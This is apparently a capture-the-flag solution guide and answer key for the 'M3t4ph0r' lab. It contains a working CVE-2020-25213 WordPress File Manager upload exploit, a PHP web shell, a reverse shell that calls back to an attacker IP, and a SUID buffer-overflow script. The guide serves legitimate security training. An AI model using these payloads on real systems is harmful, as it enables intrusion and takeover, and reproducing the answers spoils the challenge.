







# M3t4ph0r — Solution Guide

**Challenge:** M3t4ph0r
**Total Points:** 4305
**Tokens:** 3
**Difficulty:** Medium
**Tags:** Web Exploitation, Reverse Engineering, Privilege Escalation

---

## Overview

M3t4ph0r simulates a realistic multi-stage breach across two web services hosted on a single machine. Competitors must conduct reconnaissance, reverse engineer a Java artifact to extract credentials, exploit a vulnerable WordPress plugin for initial access, then escalate privileges via a SUID buffer overflow to retrieve the final flag.

**Scenario:** PeanutCo's internal systems have been compromised. Your task is to retrace the attacker's path and document the technical chain of compromise.

### Attack Chain Summary

```
1. Reconnaissance → Discover MediaWiki (port 80) and WordPress (port 8081)
2. Intelligence Gathering → Find deleted MediaWiki page referencing scott_patch.jar
3. Artifact Analysis → Reverse engineer JAR to extract Scott Lang's password
4. Initial Access → Exploit WordPress File Manager CVE-2020-25213 for RCE
5. Privilege Escalation → Exploit SUID binary buffer overflow to read /flag.txt
```

### Services

| Service | Port | Technology | Purpose |
|---------|------|------------|---------|
| Wiki | 80 | MediaWiki 1.39.0 | Information gathering target |
| Blog | 8081 | WordPress 5.5 + WP File Manager 6.0 | Initial access vector |

### Pre-Provided Credentials

| System | Hostname | Username | Password |
|--------|----------|----------|----------|
| Kali Workstation | `kali` | user | password |
| Target Server | `m3t4ph0r` | N/A | N/A |

---

## Token 1: Compromised User (861 points, 20%)

**Objective:** Identify who was compromised in the breach.

**Question:** Who was the compromised user in the breach?

**Answer:** `Scott Lang`

### Methodology

This token tests reconnaissance and OSINT skills. Competitors must systematically enumerate the target to discover information sources, then correlate findings from multiple locations (wiki pages, deleted content, artifacts) to identify the compromised user.

### Step 1: Port Scanning and Service Discovery

Begin with reconnaissance to map the attack surface.

```bash
nmap -sV m3t4ph0r
```

**Expected Output:**

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd
8081/tcp open  http    Apache httpd
```

**Analysis:** Two web services are exposed. Port 80 typically hosts public-facing content, while port 8081 suggests a secondary service or administrative interface.



> **Note:** Screenshot shows nmap output with service version detection identifying MediaWiki on port 80 and WordPress on port 8081.

### Step 2: MediaWiki Enumeration

Explore the MediaWiki instance to gather organizational intelligence.

```bash
# View the main landing page
curl http://m3t4ph0r/index.php/Main_Page
```

**Key Pages to Investigate:**

- **Employee Resources** (`/index.php/Employee_Resources`) — Company directory with employee names, roles, and email addresses
- **PeanutCo Company Overview** — Organizational background
- **Software Updates** — References to internal tools and patches

Navigate to the Employee Resources page to identify **Scott Lang** as the Chief Human Resources Officer (CHRO) with email `slang@peanutco.local`.



> **Note:** Screenshot displays the MediaWiki Employee Resources table with columns for Name, Role, and Email. Scott Lang's entry is visible with his CHRO title.

### Step 3: Discover Deleted Content

Check the MediaWiki deletion log for hidden or removed pages. Checking deletion logs is a standard OSINT technique because deleted content often contains sensitive information that was inadvertently published.

```bash
# Access the deletion log via Special pages
curl "http://m3t4ph0r/index.php/Special:Log/delete"
```

**Finding:** A page titled **"Software_Security_Update"** was created then deleted. The deletion log entry is labeled "Delete page script." The deletion log provides a "view/undelete" link to examine historical revisions. If the player hits **show preview**, they can see a link to the `scott_patch.jar` file.



> **Note:** Screenshot shows the Special:Log/delete interface with the deleted page entry, including timestamp, admin who deleted it, and the view/undelete action links.

The deleted page references a file named `scott_patch.jar` described as a "Critical Security Update" and instructs employees to download and execute it.

### Step 4: Download and Analyze the JAR Artifact

The JAR file remains accessible in the MediaWiki images directory despite the page deletion. Navigating to `/images` also reveals the file.

```bash
# Download the artifact
wget http://m3t4ph0r/images/scott_patch.jar
```

#### Reverse Engineering Analysis

Java archives are easily decompilable, making reverse engineering straightforward. Multiple approaches work:

**Method 1: Direct Execution**

```bash
java -jar scott_patch.jar
```

**Output:**

```
Scott's debugging system. Password is wattage_SUSTAIN_XXXXXXX
```

**Method 2: Bytecode Decompilation**

```bash
# Extract and decompile
jar xf scott_patch.jar
javap -c VulnJar.class
```

**Method 3: GUI Decompiler**

Use [JD-GUI Online](https://java-decompiler.github.io/#jd-online) or install bytecode-viewer on Kali:

```bash
sudo apt install bytecode-viewer
bytecode-viewer scott_patch.jar
```



> **Note:** Screenshot displays the decompiled Java source code with the String variable containing the password value clearly visible in the main() method.

#### Answer Correlation

The JAR identifies itself as "Scott's debugging system" and prints a password. Cross-referencing with the Employee Resources page confirms **Scott Lang** (slang@peanutco.local) as the owner, making him the compromised user.

**Token 1 Answer:** `Scott Lang`

---

## Token 2: User Credentials (861 points, 20%)

**Objective:** Extract the compromised user's password.

**Question:** What was the password for the compromised user?

**Answer:** `wattage_SUSTAIN_XXXXXXX` (dynamically generated per deployment, format: `wattage_SUSTAIN_??#??##`)

### Methodology

This token builds directly on Token 1. The password was already revealed during JAR analysis in Step 4 above. Competitors must recognize that the same artifact provides both the user identity and credentials.

### Password Format

The password follows the pattern `wattage_SUSTAIN_<random>` where the random component is generated per deployment.

This credential will be used for lateral movement in Token 3.

**Token 2 Answer:** The password printed by `scott_patch.jar`

---

## Token 3: Final Flag (2583 points, 60%)

**Objective:** Achieve root access and retrieve the flag from `/flag.txt`.

**Question:** What is the final flag found in the root directory?

**Answer:** `PCCC{SKY-M3T4-XXXX}` (dynamically generated, format: `PCCC{SKY-M3T4-####}`)

### Methodology

Token 3 tests multiple advanced skills: web application exploitation, reverse shell establishment, Linux privilege escalation reconnaissance, source code analysis, and binary exploitation. This represents the most complex phase of the breach, requiring both web and systems expertise.

### Step 5: WordPress Authentication

Use the credentials extracted from the JAR to authenticate to the WordPress blog service. This constitutes lateral movement — pivoting from the wiki to the blog using discovered credentials.

```
URL:      http://m3t4ph0r:8081/wp-login.php
Username: scott
Password: <password from scott_patch.jar>
```

After successful login, explore the WordPress dashboard. Navigate to **Plugins** to identify installed components. Note **WP File Manager version 6.0** is active.



> **Note:** Screenshot shows the WordPress Plugins page with WP File Manager version 6.0 listed as active. The version number is clearly visible.

### Step 6: Exploit WP File Manager (CVE-2020-25213)

WP File Manager 6.0 contains a critical unauthenticated arbitrary file upload vulnerability. The elFinder connector endpoint accepts file uploads without authentication.

**CVE Reference:** [CVE-2020-25213](https://www.exploit-db.com/exploits/49178)

**Attack Vector:** The plugin's `connector.minimal.php` endpoint lacks authentication checks, allowing arbitrary file upload to the server filesystem.

#### Create Web Shell

```bash
# Prepare a simple PHP command execution shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### Upload via Vulnerable Endpoint

```bash
curl -s -F "cmd=upload" \
     -F "target=l1_Lw" \
     -F "upload[]=@shell.php" \
     "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

**Note:** The plugin uploads files to `lib/files/` subdirectory within the plugin folder.

#### Verify Command Execution

```bash
# Test basic commands
curl -g "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/files/shell.php?cmd=id"
# Expected: uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl -g "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/files/shell.php?cmd=whoami"
# Expected: www-data

curl -g "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/files/shell.php?cmd=ls+-la"
```



> **Note:** Screenshot displays terminal output showing the curl commands and their responses, confirming command execution as www-data user.

### Step 7: Establish Interactive Reverse Shell

A full reverse shell is necessary for the privilege escalation phase because piping binary exploit data through URL parameters is unreliable and fails with null bytes.

**On Kali — Start Listener:**

```bash
nc -lvnp 4444
```

**Prepare Reverse Shell PHP:**

Replace `KALI_IP` with your Kali machine's IP address:

```php
<?php
$sock=fsockopen("KALI_IP",4444);
$proc=proc_open("/bin/bash",array(0=>$sock,1=>$sock,2=>$sock),$pipes);
?>
```

Save as `revshell.php` and upload:

```bash
curl -s -F "cmd=upload" \
     -F "target=l1_Lw" \
     -F "upload[]=@revshell.php" \
     "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

**Trigger Connection:**

```bash
curl -g "http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/files/revshell.php"
```

Your netcat listener should receive a connection. Upgrade to a full TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Alternative Reverse Shells:** See [RevShells.com](https://www.revshells.com/) for additional payload options.

### Step 8: SUID Binary Discovery

Search for SUID binaries that could enable privilege escalation. SUID binaries execute with the permissions of their owner (often root), making them common escalation vectors.

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Finding:** `/usr/local/bin/vuln_binary` with SUID root permissions

```bash
ls -la /usr/local/bin/vuln_binary
# ---s--x--x 1 root root ... /usr/local/bin/vuln_binary
```

**Observation:** The binary has permissions `4511` (execute-only, no read). It cannot be copied or examined directly. Attempting execution reveals an authentication prompt:

```
www-data@m3t4ph0r:/$ /usr/local/bin/vuln_binary
Welcome to the PeanutCo Internal Debug Tool
Authentication required.
Enter username, then password, then your debug command, each separated by enter:
```

### Step 9: Locate Source Code

Search the filesystem for development artifacts that might reveal the binary's internals.

```bash
find / -name "*.c" 2>/dev/null
```

**Result:** `/ctf/config/privesc/vuln_binary.c`

```bash
cat /ctf/config/privesc/vuln_binary.c
```

#### Source Code Analysis

**Key Findings:**

1. **Authentication Credentials:**
   - Username is obfuscated as hex bytes: `{0x73, 0x6c, 0x61, 0x6e, 0x67}` which decodes to `"slang"`
   - Password: `__USER_PASSWORD_PLACEHOLDER__` was replaced at compile-time with the actual password (the same one discovered from the JAR)

2. **Buffer Overflow Vulnerability:**

```c
void process_debug_command(char *command) {
    char buffer[64];
    strcpy(buffer, command);  // UNSAFE: No bounds checking!
}
```

The function uses `strcpy()` to copy user input (up to 100 bytes via `fgets` with `MAX_INPUT`) into a 64-byte buffer, allowing **36 bytes of overflow** beyond the buffer boundary.

3. **Target Function:**

```c
void print_flag() {
    setuid(0);  // Escalate to root
    system("cat /flag.txt");
}
```

This function calls `setuid(0)` to elevate to root, then reads the flag. This is the target for the return address overwrite.

4. **No Security Mitigations:**

Examine the compilation script at `/ctf/config/privesc/compile.sh`:

```bash
gcc -o vuln_binary vuln_binary.c -fno-stack-protector -z execstack -no-pie
```

- **`-fno-stack-protector`**: No stack canaries
- **`-z execstack`**: Stack is executable
- **`-no-pie`**: Fixed memory addresses (no ASLR for binary)

These flags make buffer overflow exploitation straightforward.

### Step 10: Compile Locally and Identify Target Address

Transfer the source code to your Kali workstation (copy-paste from the reverse shell) and compile with identical flags:

```bash
# Replace the placeholder password with dummy value
sed 's/__USER_PASSWORD_PLACEHOLDER__/dummy/g' vuln_binary.c > vuln_local.c

# Compile with matching flags
gcc -o vuln_local vuln_local.c -fno-stack-protector -z execstack -no-pie

# Strip symbols (matches production binary)
strip --strip-all vuln_local
```

#### Find Target Address

The binary is stripped, so function names aren't available. Search for the `print_flag()` function by identifying the `setuid(0)` + `system("cat /flag.txt")` sequence:

```bash
objdump -d vuln_local | grep -B8 "system@plt>"
```

**Example Output:**

```
  4012bd:   bf 00 00 00 00       mov    $0x0,%edi
  4012c2:   e8 b9 fe ff ff       callq  401180 <setuid@plt>
  4012c7:   48 8d 3d 9a 0d 00 00 lea    0xd9a(%rip),%rdi
  4012ce:   e8 4d fe ff ff       callq  401120 <system@plt>
```

**Target Address:** `0x4012bd` (the `mov $0x0,%edi` instruction)

**Important:** This address represents the entry point that performs `setuid(0)` then calls `system()`. Do NOT target the `system@plt` call directly, as the SUID elevation must occur first.

**Compiler Version Note:** If your gcc version differs from the container's, addresses may shift by a few bytes. For guaranteed accuracy, compile inside the container where gcc is available:

```bash
# On the target (gcc is available)
cd /tmp
sed 's/__USER_PASSWORD_PLACEHOLDER__/dummy/g' /ctf/config/privesc/vuln_binary.c > vuln_local.c
gcc -o vuln_local vuln_local.c -fno-stack-protector -z execstack -no-pie
strip --strip-all vuln_local
objdump -d vuln_local | grep -B8 "system@plt>"
rm vuln_local vuln_local.c
```

### Step 11: Build and Execute Exploit

#### x86_64 Stack Layout

```
[buffer: 64 bytes][saved RBP: 8 bytes][return address: 8 bytes]
 ^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^^^^^^^
 padding           padding             overwrite with target address
```

**Total Padding:** 72 bytes, followed by 8-byte target address in little-endian format.

#### Exploit Script

Create this exploit on the target via the reverse shell:

```python
#!/usr/bin/env python3
# exploit.py — M3t4ph0r privilege escalation
import struct
import sys

# Address of setuid(0) + system("cat /flag.txt") from objdump
# UPDATE THIS with your actual objdump address!
TARGET_ADDR = 0x4012bd

username = b"slang"
password = b"<REPLACE_WITH_PASSWORD_FROM_JAR>"

# 64 bytes buffer + 8 bytes saved RBP = 72 bytes padding
payload = b"A" * 72 + struct.pack("<Q", TARGET_ADDR)

# Use binary write to handle null bytes correctly
sys.stdout.buffer.write(username + b"\n")
sys.stdout.buffer.write(password + b"\n")
sys.stdout.buffer.write(payload + b"\n")
```

**Critical:** The exploit MUST use `sys.stdout.buffer.write()` for the entire payload. Do NOT use bash `printf` or command substitution (`$(...)`) as they cannot handle null bytes in the packed address.

#### Execute Exploit

```bash
python3 exploit.py | /usr/local/bin/vuln_binary
```

**Expected Output:**

```
Welcome to the PeanutCo Internal Debug Tool
Authentication required.
Enter username, then password, then your debug command, each separated by enter:
PCCC{SKY-M3T4-XXXX}
Segmentation fault
```

**Success!** The flag is printed before the segfault occurs. The segmentation fault is expected and harmless — it happens because execution falls through after `system()` returns, but the flag has already been output to stdout.



> **Note:** Screenshot displays the terminal with the exploit script execution, showing the welcome message, flag output (PCCC{SKY-M3T4-####}), and subsequent segfault message.

#### Alternative: pwntools Solver

An automated solver using pwntools is available at `solution/helpers/privesc-solver.py`. This script requires a local copy of the compiled binary and uses the `flat()` function to construct the overflow payload. Update the `password` variable and `target` address before running.

**Token 3 Answer:** The flag printed to stdout (format: `PCCC{SKY-M3T4-####}`)

---

## Answer Summary

| Token | Question | Answer | Points |
|-------|----------|--------|--------|
| 1 | Compromised User | `Scott Lang` | 861 (20%) |
| 2 | User Credentials | Dynamic (format: `wattage_SUSTAIN_??#??##`) | 861 (20%) |
| 3 | Final Flag | Dynamic (format: `PCCC{SKY-M3T4-####}`) | 2583 (60%) |

---

## Tools Reference

| Tool | Purpose | Usage in Challenge |
|------|---------|-------------------|
| **nmap** | Network scanner | Service discovery and port enumeration |
| **curl** | HTTP client | Web requests, web shell interaction, file downloads |
| **wget** | File downloader | Download JAR artifact from MediaWiki |
| **java** | Java runtime | Execute JAR to reveal password |
| **javap** | Java disassembler | Decompile class files for analysis |
| **JD-GUI** | Java decompiler | GUI-based JAR reverse engineering |
| **bytecode-viewer** | Java analysis | Alternative JAR decompilation tool |
| **nc (netcat)** | Network utility | Reverse shell listener |
| **find** | File search | Discover SUID binaries and source files |
| **gcc** | C compiler | Compile binary locally with matching flags |
| **objdump** | Binary analyzer | Disassemble binary to find target addresses |
| **strip** | Symbol remover | Remove debugging symbols from compiled binary |
| **python3** | Scripting language | Craft binary exploit payload with struct packing |

---

## Common Issues and Solutions

### JAR Prints Placeholder Instead of Password

**Cause:** Runtime compilation in `start.sh` failed to inject the dynamic password.

**Solution:** Check container logs with `docker logs <container-name>`. Verify the container has `openjdk-11-jdk` and `gcc` installed. The JAR and SUID binary must be compiled at container startup with the dynamic credentials.

### Buffer Overflow Produces Segfault But No Flag

**Cause:** Incorrect target address — not pointing to the `setuid(0)` instruction.

**Solution:** Recompile the binary inside the container (gcc is available there) to match the exact gcc version. Use `objdump -d vuln_local | grep -B8 "system@plt>"` and target the `mov $0x0,%edi` instruction address, NOT the `system@plt` call directly.

### Flag Output Shows "Permission denied"

**Cause:** Buffer overflow succeeded but SUID privileges weren't elevated properly.

**Solution:** Ensure you're targeting the `setuid(0)` instruction (the `mov $0x0,%edi` before `callq setuid@plt`), not the `system()` call. The `setuid(0)` call is required to promote the real UID to root before invoking the shell.

### Web Shell Upload Returns Errors

**Cause:** Plugin not active or incorrect endpoint path.

**Solution:** Verify WordPress is running on port 8081 and WP File Manager plugin is active in the dashboard. The correct upload endpoint is `http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php` and uploaded files appear at `http://m3t4ph0r:8081/wp-content/plugins/wp-file-manager/lib/files/<filename>`.

---

## MITRE ATT&CK Techniques

| ID | Technique | Challenge Phase |
|----|-----------|-----------------|
| T1595.002 | Active Scanning: Vulnerability Scanning | Step 1 — nmap service enumeration |
| T1592 | Gather Victim Host Information | Step 2 — MediaWiki reconnaissance |
| T1213 | Data from Information Repositories | Step 3 — Accessing deleted wiki pages |
| T1140 | Deobfuscate/Decode Files or Information | Step 4 — JAR reverse engineering |
| T1078 | Valid Accounts | Step 5 — Using extracted credentials for WordPress |
| T1190 | Exploit Public-Facing Application | Step 6 — CVE-2020-25213 exploitation |
| T1505.003 | Web Shell | Step 6-7 — PHP web shell deployment |
| T1068 | Exploitation for Privilege Escalation | Steps 8-11 — SUID buffer overflow |

---

## References

- [CVE-2020-25213 — WP File Manager RCE](https://www.exploit-db.com/exploits/49178)
- [JD-GUI Online Java Decompiler](https://java-decompiler.github.io/#jd-online)
- [RevShells — Reverse Shell Generator](https://www.revshells.com/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
